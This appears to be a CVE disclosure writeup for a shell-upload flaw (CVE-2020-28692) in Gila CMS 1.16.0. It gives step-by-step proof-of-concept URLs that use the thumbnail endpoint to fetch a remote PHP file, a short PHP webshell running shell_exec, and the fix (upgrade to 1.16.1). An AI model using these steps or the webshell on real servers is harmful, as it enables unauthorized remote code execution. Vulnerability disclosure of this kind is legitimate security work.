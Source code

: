 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC

1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** .

```
http://192.168.0.105:1234/gila16/admin/fm?f=tmp/
```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess** :

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example

```
http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php
```

5.We can check shell name with **http://IP/admin/fm?f=tmp/** .

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php

```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

